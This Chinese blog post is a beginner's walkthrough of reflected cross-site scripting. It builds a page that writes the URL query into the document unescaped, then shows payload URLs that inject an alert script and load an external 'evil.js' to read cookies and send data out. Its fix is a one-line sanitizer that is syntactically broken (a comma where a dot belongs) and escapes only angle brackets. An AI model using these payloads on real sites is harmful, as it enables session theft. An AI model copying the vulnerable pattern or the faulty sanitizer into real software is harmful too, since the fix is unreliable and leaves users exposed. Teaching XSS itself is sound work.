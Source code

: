 title: js跨站脚本
author: Ming ming
tags:
  - js
  - 跨站脚本
categories:
  - 前端
  - js
  - 客户端js
date: 2018-08-03 03:19:00
---
xss
跨站脚本，称为xss这个术语用来表示一类的安全问题，指攻击者向目标web站点注入html标签或者脚本。
# 来一个小栗子
>　substring 返回介于两者之间的字符串，如果省去最后一个参数，则直接以length为填充

> window.location.search 返回/后面内容包括问号

> 返回？后面的参数
window.location.search.substring(1)

> decodeURIComponent() 将url进行解码，返回解码后的utf-8格式

```
<!doctype html>
<html>
<head>
	<title>这是标题</title>
	<meta charset="utf-8">
</head>
<body>
	<script>
		var name = decodeURIComponent(window.location.search.substring(1));	// 获取参数
		console.log(name);
		document.write("hello " + name);
	</script>
</body>
</html>
```
访问 
```
http://abc.com:8887/?%20word
```
> 本地使用web server for chrome 完成了本地静态服务器的搭建，使用host文件，强制修改home.abc.com 以及 abc.com 到 127.0.0.1 完成域名的绑定,因为js脚本不能本地运行，因为有跨域的限制

页面输出
```
 hello word 
```
这是一个灰常正经的页面。
下面如果尝试输入
```
http://abc.com:8887/?%3Cscript%3Ealert("David")%3C/script
```
事实上现在的浏览器很智能了。。已经自动解析了。已经自动暂停解析了，最后加上%3e被浏览器拦截，自动的，去掉以后，由于容错机制，自动生成
好吧，要不是这容错机制，xss还没法实验呢。无奈，现在太智能了，小白的手法，已经不行喽
```
<script>
</script>
```
导致能允许。好吧，去掉自动拦截，chrome直接禁止访问了。╮(╯▽╰)╭
https://developer.mozilla.org/zh-CN/docs/Web/HTML/Optimizing_your_pages_for_speculative_parsing
使用的是预解析，自动平衡树

此时script变身成为
```
document.write('hello ' + <script>alert("David")</script)
```
好啦，接着，就会出现一个弹窗，David
因为使用这个url自动生成一个另外一个脚本，由于浏览器自动的安全措施，所以使用浏览器页面预解析，写一个不平衡的树，初始浏览器解析的时候自动添加上
```
<script>
</script>
```
> 事实上，现在基本上都会屏蔽掉的，和sql注入一样，都是非常小白的攻击手法。╮(╯▽╰)╭

导致出现弹窗，xss完成
接着下面还有
使用src引入一个脚本。
```
http://abc.com:8887/?%3Cscript%20src=%E2%80%9Chttps://1.com/evil.js%E2%80%9D%3E%3C/script%3E
```
这样就完成了一次脚本的注入。会将其他站点的脚本，通过连接进行注入。
可以对该站点的内容做任何的操作，以及读取cookie，以及将数据发送回站点
> 事实上浏览器插件就是这样干的，在页面中加入js脚本，通过更改页面的js来达到对页面修改的目的

更多内容 https://www.ibm.com/developerworks/cn/security/se-prevent-cross-site-scripting-attacks/index.html

# 预防 
通过使用replace()全部替换为实体即可。
```
name = name.replace(/</g, "&lt;"),replace(/>/g, "&gt;");
```
# 总结
xss和sql注入一样，属于小白攻击法，要说简单也很简单，要说难也很难

# 拒绝服务攻击
如果一个站点无限弹窗，浏览器会卡死。包括使用js挖矿什么的，都不值得一提了。
